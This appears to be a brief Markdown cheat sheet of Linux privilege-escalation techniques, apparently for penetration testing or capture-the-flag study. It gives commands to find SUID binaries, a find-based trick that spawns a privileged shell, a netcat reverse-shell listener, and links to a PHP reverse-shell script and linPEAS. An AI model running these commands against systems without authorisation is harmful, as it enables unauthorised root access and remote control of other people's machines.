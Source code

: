 # Privilege Escalation

sudo -l

Shows what the user can run as root without needing the root password

## https://gtfobins.github.io/

## SUID executables
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

find xxx -exec whoami \;

find . -exec /bin/sh -p \; -quit


## Reverse Shell

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

sudo nc -lvnp 443

## LinPeas
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS


